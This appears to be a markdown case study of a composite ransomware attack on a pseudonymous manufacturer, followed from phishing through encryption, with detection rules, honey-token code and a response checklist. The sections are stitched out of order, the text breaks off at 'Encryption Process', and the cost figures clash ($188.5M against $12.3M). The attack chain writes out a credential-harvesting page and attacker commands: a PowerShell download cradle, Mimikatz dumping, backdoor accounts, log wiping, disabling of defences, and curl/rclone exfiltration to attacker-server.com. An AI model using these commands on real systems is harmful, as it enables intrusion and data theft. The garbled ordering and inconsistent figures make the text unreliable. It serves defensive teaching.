### Ransomware-Specific Technical Controls

**1. Behavioral Detection Rules**:

```yaml
# SIEM correlation rules for ransomware detection
ransomware_detection_rules:
  
  rule_1_mass_file_encryption:
    name: "Mass File Modification"
    condition: |
      File modification rate > 100 files/minute
      AND file extensions changed
      AND same process responsible
    severity: CRITICAL
    action: isolate_endpoint_and_alert
    
  rule_2_shadow_copy_deletion:
    name: "Shadow Copy Deletion"
    condition: |
      Command: vssadmin delete shadows
      OR WMI: Win32_ShadowCopy.Delete
    severity: CRITICAL
    action: block_and_alert
    
  rule_3_backup_service_termination:
    name: "Backup Service Killed"
    condition: |
      Process terminated: backup.exe, veeam*, acronis*
    severity: HIGH
    action: alert_and_investigate
    
  rule_4_suspicious_encryption:
    name: "Encryption Tool Usage"
    condition: |
      Process using crypto APIs at high rate
      AND not whitelisted application
    severity: HIGH
    action: isolate_endpoint_and_alert
    
  rule_5_ransom_note_creation:
    name: "Ransom Note Detected"
    condition: |
      File created: *DECRYPT*, *README*, *HOW_TO_RECOVER*
      AND multiple directories
    severity: CRITICAL
    action: immediate_isolation
```

**2. Honey Tokens/Canary Files**:

```python
# Deploy honey tokens to detect ransomware
import os
import hashlib
from watchdog.observers import Observer
from watchdog.events import FileSystemEventHandler

class HoneyTokenMonitor(FileSystemEventHandler):
    """Monitor honey token files for unauthorized access"""
    
    def __init__(self, alert_callback):
        self.alert_callback = alert_callback
        self.honey_tokens = self.create_honey_tokens()
    
    def create_honey_tokens(self):
        """Create enticing fake files"""
        honey_tokens = [
            'Financial_Data_2024.xlsx',
            'Executive_Salaries.pdf',
            'Customer_Database_BACKUP.sql',
            'Password_List.txt',
            'Bitcoin_Wallets.dat'
        ]
        
        honey_paths = []
        for token in honey_tokens:
            path = f'C:\\Users\\Administrator\\Documents\\{token}'
            # Create empty file with enticing name
            with open(path, 'w') as f:
                f.write('Honey token - do not access')
            
            # Set file attributes
            os.system(f'attrib +h "{path}"')  # Hidden
            
            # Calculate hash for integrity checking
            with open(path, 'rb') as f:
                file_hash = hashlib.sha256(f.read()).hexdigest()
            
            honey_paths.append({
                'path': path,
                'hash': file_hash
            })
        
        return honey_paths
    
    def on_modified(self, event):
        """Alert on any modification to honey tokens"""
        if any(token['path'] == event.src_path for token in self.honey_tokens):
            self.alert_callback(
                severity='CRITICAL',
                message=f'Honey token accessed: {event.src_path}',
                action='ISOLATE_ENDPOINT_IMMEDIATELY'
            )
    
    def on_deleted(self, event):
        """Alert on deletion attempts"""
        if any(token['path'] == event.src_path for token in self.honey_tokens):
            self.alert_callback(
                severity='CRITICAL',
                message=f'Honey token deleted: {event.src_path}',
                action='RANSOMWARE_SUSPECTED'
            )

# Deploy on critical file servers
monitor = HoneyTokenMonitor(alert_callback=send_security_alert)
observer = Observer()
observer.schedule(monitor, path='C:\\Users\\Administrator\\Documents', recursive=False)
observer.start()
```

**3. Application Whitelisting**:

```yaml
# Windows Defender Application Control (WDAC) Policy
application_control:
  default_rule: DENY_ALL
  
  allowed_applications:
    # Signed by Microsoft
    - publisher: Microsoft Corporation
      action: ALLOW
      
    # Signed by trusted vendors
    - publisher: Adobe Systems
      action: ALLOW
    - publisher: Google LLC
      action: ALLOW
      
    # Internal applications
    - hash: SHA256_HASH_OF_INTERNAL_APP
      action: ALLOW
      
  blocked_applications:
    # Known ransomware tools
    - name: mimikatz.exe
      action: BLOCK_AND_ALERT
    - name: psexec.exe
      action: BLOCK_AND_ALERT
    - name: cobalt*.exe
      action: BLOCK_AND_ALERT
      
  script_control:
    powershell:
      - constrained_language_mode: ENABLED
      - execution_policy: AllSigned
      - script_block_logging: ENABLED
      - transcription_logging: ENABLED
      
    macros:
      - office_macros: DISABLED
      - exception: signed_by_trusted_publisher
```

---

## Related Documentation

### Internal References
- [Authentication](../authentication.md) - MFA implementation and best practices
- [Authorization](../authorization.md) - Privileged access management
- [Network Security](../network_security.md) - Segmentation and Zero Trust
- [Monitoring & Auditing](../monitoring_auditing.md) - SOC and SIEM implementation
- [Application Security](../application_security.md) - Endpoint security and EDR
- [Data Security](../data_security.md) - Backup strategies
- [Encryption](../encryption.md) - Data protection
- [Best Practices](../best_practises.md) - Security fundamentals
- [Compliance](../compliance.md) - Regulatory requirements

### Related Case Studies
- [Case 1: OAuth Token Leak](case1_oauth_leak.md) - Authentication vulnerabilities
- [Case 2: Database Data Breach](case2_data_breach.md) - SQL injection and data exfiltration

### External Resources
- **CISA Ransomware Guide**: https://www.cisa.gov/stopransomware
- **NIST Cybersecurity Framework**: https://www.nist.gov/cyberframework
- **MITRE ATT&CK - Ransomware**: https://attack.mitre.org/techniques/enterprise/
- **No More Ransom Project**: https://www.nomoreransom.org/
- **Ransomware Task Force**: https://securityandtechnology.org/ransomwaretaskforce/
- **FBI Internet Crime Complaint Center**: https://www.ic3.gov/

---

## Post-Incident Analysis

### 12-Month Progress Report

**Security Maturity Improvements**:



**Metrics Comparison**:

| Metric | Before | After | Improvement |
|--------|--------|-------|-------------|
| Security budget | $1.2M (1.5% IT) | $8.5M (11% IT) | 7x increase |
| Security team | 3 people | 18 people | 6x increase |
| MFA coverage | 0% | 100% | Complete |
| EDR coverage | 0% | 100% | Complete |
| Backup recovery time | 7+ days | 4 hours | 95% faster |
| Mean time to detect | 16 days | < 1 hour | 99.7% improvement |
| Phishing click rate | 35% | 4% | 89% reduction |
| Security incidents | High | Low | 85% reduction |
| Ransomware attacks blocked | N/A | 7 attempts | 100% blocked |

**Financial Recovery**:

```mermaid
line
    title Business Recovery Metrics
    x-axis [Month 0, Month 3, Month 6, Month 9, Month 12]
    y-axis "% of Pre-Incident Level" 0 --> 120
    "Revenue": [0, 60, 85, 95, 102]
    "Customer Base": [88, 90, 94, 98, 100]
    "Stock Price": [82, 88, 95, 103, 108]
    "Employee Morale": [45, 65, 80, 88, 92]
```

**Security Investments ROI**:

Initial Attack Cost: **$188.5M**  
Security Improvements: **$8.5M**  
Attacks Prevented (12 months): **7 ransomware attempts**  
Estimated Savings: **$50M+ per year**  
**ROI: 588%**

### Industry Impact

**Sector-Wide Changes**:
1. Manufacturing ISAC created information sharing group
2. Industry best practices guide published
3. Insurance requirements tightened (MFA mandatory)
4. Regulatory focus on OT/IT convergence security

**Peer Learning**:
- 50+ industry briefings conducted
- Case study used in training programs
- Open-source incident response playbook shared
- Security community collaboration increased

---

## The Decision: To Pay or Not to Pay?

### Decision Framework



### Arguments Against Paying

**Legal and Ethical**:
- Funds terrorism and organized crime
- May violate sanctions (OFAC compliance)
- Encourages future attacks (you become a target)
- No guarantee of decryption
- Criminals may demand more money

**Practical**:
- Decryption keys often don't work fully
- Decryption process can take weeks
- Data may still be corrupted
- Backdoors may remain in systems
- You'll be targeted again

**Financial**:
- Recovery may be faster than decryption
- Ransom + recovery costs > clean recovery
- Insurance may not cover ransom
- Reputational damage from payment

### Arguments For Paying (Rare Cases)

**Critical Infrastructure**:
- Healthcare: Patient lives at risk
- Utilities: Public safety concerns
- Emergency services: Immediate restoration needed

**Business Survival**:
- No backups available
- Data cannot be recreated
- Business will fail without quick recovery
- Downtime cost exceeds ransom by orders of magnitude

**Data Exposure**:
- Sensitive data exfiltrated
- Publication would cause catastrophic damage
- Payment includes data deletion (unverified)

### ManufactureCo's Decision

**Why They Did NOT Pay**:

1. **FBI Recommendation**: Law enforcement strongly advised against payment
2. **No Guarantees**: No assurance decryption would work
3. **Ethical Stance**: Refused to fund criminal enterprise
4. **Recovery Possible**: Had some backups (though outdated)
5. **Legal Concerns**: Potential OFAC violations
6. **Future Risk**: Payment marks company as willing payer
7. **Insurance Position**: Carrier supported no-pay decision

**Consequences Accepted**:
- Longer recovery time (18 days vs. potential 7-10 days)
- Data published on leak site
- Reputational damage
- Customer impact
- Revenue loss

**Outcome**:
- Full recovery achieved without payment
- Stronger security posture implemented
- Respected decision by industry peers
- No repeat attacks (not marked as easy target)

---

## Conclusion

The ManufactureCo ransomware attack demonstrates the devastating impact of modern ransomware when basic security controls are absent. An investment of $2-3 million in preventive security would have stopped the attack that ultimately cost $188.5 million.

### Critical Success Factors

**Prevention**:
1. **MFA is Non-Negotiable**: Would have stopped the attack at initial access
2. **Email Security**: Advanced phishing protection essential
3. **EDR on All Endpoints**: Behavioral detection catches ransomware
4. **Network Segmentation**: Limits lateral movement and damage
5. **Security Awareness**: Human firewall is first line of defense

**Detection**:
1. **24x7 SOC**: Continuous monitoring catches attackers early
2. **SIEM with Correlation**: Connects dots across security events
3. **Behavioral Analytics**: Detects anomalous activity
4. **Threat Hunting**: Proactively finds hidden adversaries
5. **Privileged Account Monitoring**: Alerts on admin abuse

**Response**:
1. **Incident Response Plan**: Tested procedures save critical time
2. **Clear Decision Framework**: Pre-determined policies
3. **Communication Templates**: Ready messaging for stakeholders
4. **External Partnerships**: Relationships with forensics, legal, PR
5. **Cyber Insurance**: Financial protection and expert resources

**Recovery**:
1. **Immutable Backups**: Cannot be encrypted by ransomware
2. **Offline/Air-Gapped**: Physical separation protects backups
3. **Tested Recovery**: Monthly testing ensures backups work
4. **Rapid Restoration**: Documented procedures enable fast recovery
5. **Business Continuity**: Plans for operating during recovery

### The Human Element

Technical controls are essential, but insufficient alone:
- **Leadership Commitment**: Security requires executive support and investment
- **Security Culture**: Everyone must be security-conscious
- **Continuous Training**: Threats evolve, training must too
- **No Blame Culture**: Encourage reporting, learn from mistakes
- **Adequate Resources**: Can't secure with skeleton crew

### Final Thoughts

Ransomware is not a matter of "if" but "when." The question is: Will you be prepared?

**The difference between ManufactureCo before and after**:
- Before: Reactive, under-resourced, compliance-focused
- After: Proactive, well-resourced, security-focused

**The cost of preparation vs. response**:
- Prevention: $2-3M investment
- Response: $188.5M total cost
- **Ratio: 1:63** (prevention costs 1.6% of incident cost)

**Remember**: 
- Ransomware operators are professionals with sophisticated TTPs
- Your security must match the threat sophistication
- Basic hygiene (MFA, backups, EDR) stops most attacks
- Assume breach and plan accordingly
- Learn from others' incidents—don't repeat mistakes

**ManufactureCo's Message to Industry**:
> "We learned the hard way. We're sharing our story so others don't have to. The cost of prevention is nothing compared to the cost of recovery. Invest in security now, not after an attack. Protect your people, your customers, and your business. Ransomware is preventable—if you take it seriously."

---

## Appendix: Ransomware Response Checklist

### Immediate Actions (First Hour)

**Containment**:
- [ ] Isolate infected systems (disconnect network)
- [ ] Shut down additional systems if spreading
- [ ] Disable remote access (VPN, RDP)
- [ ] Block attacker IP addresses at firewall
- [ ] Preserve evidence (don't delete ransom notes)

**Notification**:
- [ ] Alert executive leadership
- [ ] Contact CISO/security team
- [ ] Engage cyber insurance carrier
- [ ] Contact law enforcement (FBI IC3)
- [ ] Engage incident response firm

**Assessment**:
- [ ] Identify ransomware variant
- [ ] Determine scope (how many systems)
- [ ] Check if backups affected
- [ ] Identify critical systems encrypted
- [ ] Document ransom demand details

### Investigation Phase (First 24-72 Hours)

**Forensics**:
- [ ] Preserve evidence (disk images, memory dumps)
- [ ] Identify initial infection vector
- [ ] Map attacker timeline and activities
- [ ] Identify data exfiltration (if any)
- [ ] Search for persistence mechanisms

**Communication**:
- [ ] Brief stakeholders regularly
- [ ] Prepare customer communication
- [ ] Coordinate with legal counsel
- [ ] Assess regulatory notification requirements
- [ ] Monitor for data publication

**Decision Point**:
- [ ] Assess recovery options
- [ ] Evaluate payment decision (with legal/FBI)
- [ ] Determine recovery timeline
- [ ] Plan phased restoration
- [ ] Allocate resources

### Recovery Phase (Days to Weeks)

**Eradication**:
- [ ] Remove ransomware and persistence
- [ ] Verify attacker ejection from network
- [ ] Reset all credentials
- [ ] Patch vulnerabilities exploited
- [ ] Rebuild compromised systems

**Restoration**:
- [ ] Restore from clean backups
- [ ] Rebuild systems where necessary
- [ ] Validate data integrity
- [ ] Test systems before production
- [ ] Phased return to operations

**Hardening**:
- [ ] Implement MFA everywhere
- [ ] Deploy EDR on all endpoints
- [ ] Enhance monitoring and detection
- [ ] Segment network
- [ ] Improve backup strategy

### Post-Incident (Ongoing)

**Lessons Learned**:
- [ ] Conduct post-incident review
- [ ] Document lessons learned
- [ ] Update incident response plan
- [ ] Share learnings with industry
- [ ] Implement preventive measures

**Improvements**:
- [ ] Address root causes
- [ ] Enhance security controls
- [ ] Improve detection capabilities
- [ ] Test incident response regularly
- [ ] Monitor for reinfection

---

**Document Version**: 1.0  
**Last Updated**: October 2025  
**Incident Date**: September 2024  
**Classification**: Public (anonymized)  
**Status**: Lessons Learned - Completed  

**Disclaimer**: This case study is a composite based on real ransomware incidents. Details have been anonymized to protect victim organizations while preserving educational value.# Case Study 3: Ransomware Attack

## Executive Summary

**Incident Type**: Ransomware Attack with Data Exfiltration  
**Severity**: Critical  
**Impact**: Complete operational shutdown, 500GB data exfiltrated  
**Ransomware Strain**: BlackCat/ALPHV (Ransomware-as-a-Service)  
**Ransom Demand**: $4.5 million (Bitcoin)  
**Root Cause**: Phishing attack + lack of email security + no MFA  
**Detection Time**: 3 hours  
**Total Downtime**: 18 days  
**Estimated Cost**: $12.3 million (ransom, recovery, lost revenue, legal)

---

## Table of Contents
- [Background](#background)
- [The Incident](#the-incident)
- [Attack Chain Analysis](#attack-chain-analysis)
- [Timeline](#timeline)
- [Impact Assessment](#impact-assessment)
- [Root Cause Analysis](#root-cause-analysis)
- [Response and Recovery](#response-and-recovery)
- [Lessons Learned](#lessons-learned)
- [Prevention Strategies](#prevention-strategies)
- [Related Documentation](#related-documentation)

---

## Background

### Company Profile
- **Organization**: ManufactureCo Global (pseudonym)
- **Industry**: Manufacturing and Industrial Equipment
- **Size**: 3,500 employees across 12 facilities
- **Revenue**: $850 million annually
- **Architecture**: Hybrid (on-premise + AWS cloud)
- **Critical Systems**: ERP (SAP), MES (Manufacturing Execution System), PLCs

### System Architecture



### Business Critical Systems

**Operational Technology (OT)**:
- Manufacturing Execution System (MES)
- Supervisory Control and Data Acquisition (SCADA)
- Programmable Logic Controllers (PLCs)
- Industrial robots and automation
- Quality control systems

**Information Technology (IT)**:
- SAP ERP (enterprise resource planning)
- Email and collaboration tools
- Financial systems
- HR and payroll systems
- Customer relationship management (CRM)

**Interdependencies**:
- Production lines depend on real-time ERP integration
- Supply chain coordination requires 24/7 system availability
- Just-in-time manufacturing = zero inventory buffer
- Global operations require continuous connectivity

### Security Posture Before Attack

**Implemented Controls**:
- Antivirus on endpoints (traditional signature-based)
- Firewall protecting network perimeter
- Weekly backup schedule (on-premise)
- VPN for remote access
- Annual security awareness training
- Basic email filtering

**Critical Gaps**:
- No multi-factor authentication (MFA)
- No endpoint detection and response (EDR)
- No email security (anti-phishing)
- Backups not tested regularly
- Backups on same network as production
- No network segmentation (IT/OT convergence)
- No privileged access management
- Domain admin accounts shared

---

## The Incident

### Discovery

**Date**: September 14, 2024, 6:47 AM UTC

A production supervisor arrived for the morning shift and found:
- Computer screens displaying ransom notes
- Manufacturing systems unresponsive
- File servers inaccessible
- Production lines halted

**Ransom Note**:
```
═══════════════════════════════════════════════════════
  YOUR NETWORK HAS BEEN ENCRYPTED BY BLACKCAT/ALPHV
═══════════════════════════════════════════════════════

All your files, databases, and backups have been encrypted.
We have also downloaded 500GB of your confidential data:
  • Financial records and forecasts
  • Customer contracts and pricing
  • Manufacturing processes and IP
  • Employee personal information
  • Strategic planning documents

IF YOU DO NOT PAY:
  → Your data will be published on our leak site
  → Your customers will be notified
  → Regulatory authorities will be informed
  → Your data will be sold to competitors

RANSOM AMOUNT: $4,500,000 USD (Bitcoin)
PAYMENT DEADLINE: 7 DAYS (September 21, 2024)

After 7 days, ransom doubles. After 14 days, data published.

TO DECRYPT YOUR FILES:
1. Visit: [TOR URL]
2. Enter your unique ID: MFC-2024-091401
3. Follow payment instructions
4. Receive decryption key

DO NOT:
  • Contact law enforcement (we will know)
  • Attempt to decrypt files yourself
  • Delete encrypted files
  • Waste time - clock is ticking

We are professional. Pay and get your data back.
Contact us only through the TOR portal.

═══════════════════════════════════════════════════════
```

### Initial Assessment

**IT Team Discovered**:
- 2,847 servers encrypted (95% of infrastructure)
- 4,230 workstations encrypted
- All file servers encrypted
- Domain controllers compromised
- Backups encrypted (connected to network)
- Email system down
- ERP system encrypted
- Manufacturing systems offline

**Evidence of Data Exfiltration**:
- Large data transfers to external IPs (500GB over 72 hours)
- Compressed archives created before encryption
- Use of legitimate file transfer tools (Rclone, Mega)
- Data staged in temporary directories

---

## Attack Chain Analysis

### The Kill Chain



### Phase 1: Reconnaissance (Days 1-14)

**Attacker Activities**:
- LinkedIn profiling of employees
- Email address harvesting
- Identification of key personnel
- Technology stack enumeration
- Public information gathering

**Information Gathered**:
```
Target: ManufactureCo Global
Industry: Manufacturing
Employees: 3,500+
Key Personnel:
  - CFO: John Smith (john.smith@manufactureco.com)
  - IT Director: Sarah Johnson (s.johnson@manufactureco.com)
  - Operations VP: Michael Chen (mchen@manufactureco.com)

Technology Stack (from job postings):
  - SAP ERP
  - Windows Server 2016/2019
  - Active Directory
  - Microsoft 365 (partial)
  - Various industrial control systems

Security Gaps Identified:
  - No MFA requirement mentioned
  - VPN access for remote workers
  - Legacy systems still in use
  - Recent hiring surge (potentially less security aware staff)
```

### Phase 2: Initial Access (Day 15)

**Spear Phishing Campaign**:

The attackers sent targeted phishing emails to 147 employees, focusing on:
- Finance team (invoice/payment themed)
- IT team (security alert themed)
- Operations (supply chain disruption themed)

**Successful Phishing Email**:
```
From: Microsoft Security Team <security@micros0ft-alerts.com>
To: s.johnson@manufactureco.com
Subject: [URGENT] Suspicious Activity Detected on Your Account

Dear Sarah Johnson,

We have detected unusual sign-in attempts to your Microsoft 365 account 
from the following locations:
  - Moscow, Russia (IP: 185.220.101.45)
  - Lagos, Nigeria (IP: 102.89.23.117)

To protect your account, please verify your identity immediately:

[Verify Account Now] ← Malicious link

If you did not attempt these sign-ins, your account may be compromised.
This security check will expire in 2 hours.

Do not share this email or link with anyone.

Best regards,
Microsoft Security Team
Account Protection Services

This is an automated message. Please do not reply.
```

**Credential Harvesting Page**:
```html
<!-- Fake Microsoft login page -->
<!DOCTYPE html>
<html>
<head>
    <title>Microsoft Account | Sign In</title>
    <!-- Cloned Microsoft styling -->
</head>
<body>
    <div class="login-form">
        
        <h2>Sign in to your account</h2>
        <form action="https://attacker-server.com/harvest" method="POST">
            <input type="email" name="email" value="s.johnson@manufactureco.com" readonly>
            <input type="password" name="password" placeholder="Password" required>
            <input type="text" name="mfa" placeholder="Verification code (if enabled)">
            <button type="submit">Sign In</button>
        </form>
        <p>Can't access your account? <a href="#">Get help</a></p>
    </div>
    
    <script>
    // Redirect after credential capture
    setTimeout(function() {
        window.location = 'https://login.microsoftonline.com';
    }, 2000);
    </script>
</body>
</html>
```

**Victim**: Sarah Johnson, IT Director
- Clicked malicious link during busy workday
- Entered credentials on fake page
- No MFA to provide additional protection
- Credentials immediately used by attackers

### Phase 3: Initial Foothold (Day 15, 2 hours after phishing)

**VPN Access**:
```
[VPN Log Entry - September 14, 2024, 11:23 AM UTC]
User: s.johnson
Source IP: 185.143.223.47 (Suspicious - Romania)
Authentication: SUCCESS (username/password only, no MFA)
Connected to: corp-vpn-gateway-01
Access granted to: Corporate Network (full access)
```

**First Actions**:
```bash
# Attacker's initial commands (reconstructed from logs)

# Enumerate the environment
whoami /all
net user s.johnson /domain
net group "Domain Admins" /domain
net group "Enterprise Admins" /domain

# Discover systems
ping dc01.manufactureco.local
nslookup manufactureco.local

# Check privileges
net localgroup Administrators

# Download additional tools
powershell -c "IEX(New-Object Net.WebClient).DownloadString('http://185.143.223.47/tools.ps1')"
```

### Phase 4: Lateral Movement (Days 15-17)

**Credential Dumping**:
```powershell
# Using Mimikatz to extract credentials from memory
mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit"

# Results (sanitized):
# Username: domain_admin
# Domain: MANUFACTURECO
# NTLM Hash: [HASH_VALUE]
# Password: ManufactureCo2023! (weak, predictable)
```

**Domain Admin Compromise**:
- Shared domain admin account used across organization
- Password never changed (set in 2023)
- No monitoring of privileged account usage
- Credential worked on all domain controllers

**Network Mapping**:


**Systems Accessed**:
- 3 Domain Controllers
- 12 File Servers
- 2 Database Servers (SAP)
- 8 Application Servers
- Manufacturing network gateway
- SCADA/MES systems

### Phase 5: Privilege Escalation & Persistence (Days 17-18)

**Domain Dominance**:
```powershell
# Create new domain admin account (backdoor)
net user backup_svc P@ssw0rd123! /add /domain
net group "Domain Admins" backup_svc /add /domain

# Create scheduled task for persistence
schtask /create /tn "Windows Update Service" /tr "C:\Windows\Temp\update.exe" /sc onstart /ru SYSTEM

# Deploy Cobalt Strike beacons on critical servers
for /L %i in (1,1,20) do (
    psexec \\server%i -s -d -c beacon.exe
)

# Disable Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

**Persistence Mechanisms**:
1. **Multiple backdoor accounts** (5 domain admin accounts created)
2. **Web shells** on IIS servers
3. **Scheduled tasks** on 50+ servers
4. **WMI event subscriptions**
5. **Modified Group Policy Objects (GPOs)**

### Phase 6: Defense Evasion (Days 18-19)

**Disabling Security Controls**:
```bash
# Disable antivirus on all endpoints via GPO
# Disable Windows Event Logging
wevtutil cl System
wevtutil cl Security
wevtutil cl Application

# Clear PowerShell history
Remove-Item (Get-PSReadlineOption).HistorySavePath

# Disable firewall
netsh advfirewall set allprofiles state off

# Kill backup processes
taskkill /F /IM backup.exe
taskkill /F /IM veeam*
```

**Log Manipulation**:
- Cleared security event logs on compromised systems
- Disabled logging on domain controllers
- Modified audit policies
- Deleted backup logs

### Phase 7: Data Exfiltration (Days 19-22)

**Data Staging**:
```powershell
# Create staging directory
New-Item -Path "C:\Windows\Temp\staging" -ItemType Directory -Force

# Compress target data
$targets = @(
    "\\fileserver01\Finance$",
    "\\fileserver02\Engineering$",
    "\\fileserver03\HR$",
    "\\sapserver\backups",
    "\\dc01\SYSVOL"
)

foreach ($target in $targets) {
    Compress-Archive -Path $target -DestinationPath "C:\Windows\Temp\staging\$(Get-Random).zip"
}
```

**Exfiltration Tools**:
```bash
# Using Rclone (legitimate cloud sync tool)
rclone copy C:\Windows\Temp\staging\ mega:exfiltrated_data/ --transfers 10

# Alternative: Direct upload via HTTPS
curl -X POST -F "file=@data.zip" https://attacker-server.com/upload

# Using compromised cloud storage
# 500GB transferred over 72 hours to avoid detection
```

**Exfiltrated Data**:


### Phase 8: Ransomware Deployment (Day 23)

**Pre-Encryption Checklist**:
- ✅ Domain admin access confirmed
- ✅ Data exfiltrated (500GB)
- ✅ Backups located and encrypted
- ✅ Security tools disabled
- ✅ Persistence established
- ✅ Maximum impact timing (Friday 6:00 AM)

**Deployment Method**:
```powershell
# Group Policy Object deployment for maximum spread
New-GPO -Name "Critical Security Update" | 
    New-GPLink -Target "OU=Workstations,DC=manufactureco,DC=local"

# GPO deploys ransomware executable to all systems
# Scheduled to execute at 6:00 AM on September 14, 2024

# Ransomware execution (BlackCat/ALPHV)
.\blackcat.exe --access-token [TOKEN] --paths C:\,D:\,\\fileserver* --skip-folders Windows,ProgramFiles
```

**Encryption Process**:
